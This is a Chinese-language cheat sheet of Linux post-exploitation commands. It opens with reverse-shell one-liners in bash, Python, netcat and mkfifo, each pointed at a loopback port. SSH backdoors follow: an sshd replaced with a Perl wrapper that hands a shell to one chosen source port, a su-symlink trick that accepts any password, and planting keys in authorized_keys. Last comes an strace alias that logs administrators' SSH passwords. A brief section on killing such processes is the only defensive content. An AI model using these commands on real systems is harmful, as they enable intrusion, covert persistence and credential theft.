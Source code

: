 # 弹shell
```
bash -i >& /dev/tcp/127.0.0.1/6666 0>&1
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('127.0.0.1',6666));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"

# 一般Netcat有两个版本，一个版本是不提供反向连接的版本，一个是全功能版本。这两者的区别就是是否带-e参数，只有带-e参数的版本才支持反向连接。ubuntu 18.04安装的是不提供反向链接的版本。

nc -e /bin/bash 127.0.0.1 6666
# 阉割版nc
nc 127.0.0.1 6666|/bin/bash|nc 127.0.0.1 7777
mkfifo /tmp/backpipe1 | /bin/sh 0</tmp/backpipe1 | /bin/busybox nc 127.0.0.1 6666 1>/tmp/backpipe1
```



## 应对方法
批量kill可以进程
```sh
ps -ef |grep "python" |awk '{print $2}'|xargs kill -9
ps -ef |grep "bash -i" |awk '{print $2}'|xargs kill -9
ps -ef |grep "ew" |awk '{print $2}'|xargs kill -9
```
# ssh后门
## 替换sshd
判断连接来源端口，将恶意端口来源访问传输内容重定向到/bin/sh中
```sh
cd /usr/sbin/
mv sshd ../bin
vim sshd # 编辑sshd内容为以下
#!/usr/bin/perl
exec"/bin/sh"if(getpeername(STDIN)=~/^..LF/); # \x00\x00LF是19526的大端形式
exec{"/usr/bin/sshd"}"/usr/sbin/sshd",@ARGV;
service sshd restart
```
```sh 
socat STDIO TCP4:127.0.0.1:22,sourceport=19265
```
## su后门
  软连接后门的原理是利用了PAM配置文件的作用，将sshd文件软连接名称设置为su，这样应用在启动过程中他会去PAM配置文件夹中寻找是否存在对应名称的配置信息（su），然而su在pam_rootok只检测uid 0即可认证成功，这样就导致了可以使用任意密码登录
```
ln -sf /usr/sbin/sshd /tmp/su
/tmp/su -oPort=888
```
## ssh 免密登录
公钥写入`.ssh/authorized_keys`

## strace抓取管理员密码
```
alias ssh='strace -o /tmp/sshpwd-`date '+%d%h%m%s'`.log -e read,write,connect -s2048 ssh'
ps -ef | grep sshd

```